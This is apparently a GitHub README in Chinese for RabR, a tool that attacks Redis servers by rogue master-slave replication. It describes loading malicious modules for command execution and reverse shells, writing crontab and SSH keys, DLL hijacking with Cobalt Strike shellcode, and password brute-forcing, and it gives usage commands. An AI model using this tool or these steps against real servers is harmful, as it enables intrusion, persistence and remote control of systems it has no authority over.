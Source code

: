 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到Redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的Redis进行module攻击、crontab写入攻击和ssh公钥写入攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp/linux/exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。    
- 本工具默认使用的crontab文件：exp/linux/exp.crontab，使用前务必根据自己实际的需求进行修改，或者直接通过命令行设置自己的crontab文件。  
- 本工具默认使用的ssh公钥文件：exp/linux/exp.authorized_keys，使用前务必自己重新生成以替换，或者直接通过命令行设置自己的ssh公钥文件。  
- 本工具默认使用的Windows恶意模块：exp/win/exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：exp/win/dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你也可以编译自己的dbghelp.dll。  
- 本工具有爆破功能，默认密码字典位于pwd.txt中，也可自定义字典文件。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  redis-attack.py 攻击主程序
│  pwd.txt 爆破字典
├─exp
│  ├─linux
│  │      exp.authorized_keys 默认写入的Linux下的ssh公钥文件，用前需要修改
│  │      exp.crontab 默认写入的Linux下的crontab定时任务文件，用前需要修改
│  │      exp.so 默认导入的Linux Redis模块
│  └─win
│          dbghelp.dll 默认用于劫持Redis的dll
│          exp.dll 默认导入的Windows Redis模块
└─util 有用的程序（用于保存Redis数据） 
```

## 用法   
运行环境：python3
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-wf WINFILE2] [-lf LINUXFILE] [-lf2 LINUXFILE2] [-lf3 LINUXFILE3] [-a AUTH] [--brute] [-v]
Example:
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -P 80 -b mypwd.txt -i
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -lf3 id_rsa.pub

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default exp/win/dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        RedisModules(win) to load, default exp/win/exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules(linux) to load, default exp/linux/exp.so
  -lf2 LINUXFILE2, --linuxfile2 LINUXFILE2
                        Crontab file used to attack linux(/var/spool/cron/root), default exp/linux/exp.crontab(must be
                        modified before use)
  -lf3 LINUXFILE3, --linuxfile3 LINUXFILE3
                        SSH id_rsa.pub file used to attack linux(/root/.ssh/authorized_keys), use `ssh-keygen -t rsa`
                        to generate, default exp/linux/exp.authorized_keys(empty file, must be modified before use)
  -a AUTH, --auth AUTH  redis password
  -b [BRUTE], --brute [BRUTE]
                        If redis needs to verify the password, perform a brute force attack, dict default pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210708212712502](pic/image-20210708212712502.png)
![image-20210708190457889](pic/image-20210708190457889.png)
![image-20210708213302932](pic/image-20210708213302932.png)

## 进一步  
劫持Windows x64下的dbghelp.dll的具体方法：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   
```
1、将dllmain.c中 shellcode_calc[] 的值替换为cs生成的shellcode   
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);  
3、修改活动解决方案为Realease，x64  
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值  
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击。  

## 时间线  
```  
2021.07.03 发布v0.5  
2021.07.08 发布v0.6,增加了Windows模块攻击  
2021.08.02 发布v0.6.3,增加了针对Linux的crontab写入攻击、ssh公钥写入攻击  
```


## 感谢  
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  
 [浅析Linux下Redis的攻击面(一)](https://xz.aliyun.com/t/7974)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR    

## Stargazers over time

[![Stargazers over time](https://starchart.cc/0x727/ObserverWard.svg)](https://github.com/0671/RabR)
